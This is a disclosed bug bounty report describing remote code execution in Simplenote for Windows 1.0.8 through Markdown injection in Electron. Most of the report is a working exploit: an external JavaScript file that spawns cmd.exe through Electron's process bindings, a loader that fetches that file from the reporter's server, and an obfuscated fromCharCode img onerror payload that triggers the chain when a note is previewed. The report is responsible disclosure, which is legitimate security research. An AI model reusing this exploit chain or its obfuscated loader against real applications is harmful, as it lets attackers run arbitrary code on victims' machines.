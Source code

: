 # [Simplenote for Windows] Client RCE via External JavaScript Inclusion leveraging Electron

## Report Details
- **Report ID**: 291539
- **URL**: https://hackerone.com/reports/291539
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-11-18T17:57:02.877Z
- **Disclosed**: 2017-12-01T13:35:27.401Z

## Reporter
- **Username**: ysx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Hi,

A carefully crafted injection in the Markdown parser within Simplenote for Windows can be leveraged to achieve remote code execution via an external JavaScript file. 

The nature of Simplenote's content sharing system, which makes use of tags containing email addresses, means that an adversary could distribute the following proof of concept en-masse to achieve targeted arbitrary code execution, simply requiring the target to "preview" the Markdown-formatted note.

## Steps to reproduce

### Prerequisites
A standard remote web server can be used to create a functional proof of concept. For the purposes of this demonstration, please consider `ysx.bz` the "adversary" server.

Create a new JavaScript file (herein referred to as `hackerone-electron.js`) in the root directory, such that the path would read: `http://ysx.bz/hackerone-electron.js`.

### External JavaScript file

To prepare our exploit, populate this file with the following JavaScript code:

```
write("<h1>Simplenote RCE via Electron - Windows - ysx</h1>");
write("<h3>Proof of concept in progress: popping <pre>netplwiz</pre>. Please stand by!</h3>");
var Process = process.binding('process_wrap').Process;
var proc = new Process();
proc.onexit = function(a,b) {};
var env = process.env;
var env_ = [];
for (var key in env) env_.push(key+'='+env[key]);
proc.spawn({file:'cmd.exe',args:['/k netplwiz'],cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});
```

### Encoding and exploitation

Next, please open a JavaScript `eval` [encoder](https://www.martineve.com/2007/05/15/javascript-eval-string-fromcharcode-encoder/) and encode the following payload, modifying the JavaScript source URL as appropriate. This will be used within an `<img>` tag as part of the crafted note.

```
var js = document.createElement('script'); js.type = 'text/javascript'; js.src = 'http://ysx.bz/hackerone-electron.js'; document.body.appendChild(js);
```

The above example should encode as follows:

```
eval(String.fromCharCode(118,97,114,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,58,47,47,121,115,120,46,98,122,47,104,97,99,107,101,114,111,110,101,45,101,108,101,99,116,114,111,110,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))
```

Next, create a new Markdown note within Simplenote for Windows, and paste the following `<img>` tag code.

```
## Test Note
### HackerOne Windows RCE PoC - pops "netplwiz"

<img src=x onerror=eval(String.fromCharCode(118,97,114,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,58,47,47,121,115,120,46,98,122,47,104,97,99,107,101,114,111,110,101,45,101,108,101,99,116,114,111,110,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))>
```

Upon selecting the **Preview** option of the Markdown note, the JavaScript will be executed. After several seconds, the `netplwiz` executable will launch on your Windows system.

### Supporting evidence

{F240684}

{F240685}

## Verified conditions

At the time of testing, I have successfully confirmed exploitability in the following environment:

* Simplenote for Windows 1.0.8
* Windows 10 x64 Home Edition

Thanks,

Yasin

## Attachments
- pre_exploit.png
- netplwiz_poc.png
